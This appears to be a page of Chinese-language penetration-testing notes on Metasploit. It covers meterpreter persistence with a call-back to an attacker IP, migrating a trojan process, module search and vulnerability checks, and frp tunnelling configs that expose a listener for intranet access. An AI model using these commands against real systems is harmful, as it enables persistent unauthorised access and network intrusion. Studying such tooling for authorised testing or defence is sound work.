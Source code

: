 show advanced #查看高级选项设置

run tab #查看可执行脚本
run persistence -h #可持久化操作
-x 自启动
-i 心跳设置
-p 连接端口
-r 需要连接的ip
msf会创建一个脚本进行执行，添加注册表

shell设置/dll加载注入/自启动进程劫持

ep:
```
meterpreter>run persistence -X -i 3 -p 4444 -r ip
```


#### 进程迁移

木马进程转移
core命令集中使用migrate
migrate -h 
-P pid -N name -t timeout

#### MSF漏洞扫描

msf6>back#回退
/usr/share/msf中修改代码

msf6>makerc /home/destop/a.rc#保存历史命令记录
resource#读取rc

msf6>rename_job 0 aaa #更改job名称
kill jobid#关闭job名称

msf6>search name: 0708/0708 #筛选/未筛选名称 可用漏洞
show auxiliary #查看扫描检查
show exploit#查看攻击
set target#设置目标系统
check#检查漏洞（部分攻击模块没有）（ms17-010）


#### MSF内网穿透

公网上面开启frp
~/frp_linux_amd64 ./frps -c frps.ini
需要配置,但是也可以使用默认配置

客户端
./frpc -c frpc.ini
需要配置
ep:
```
[common]
server_addr = 公网ip
server_port = 7000

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
local_port =6000

[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 6666
remote_port = 7002
```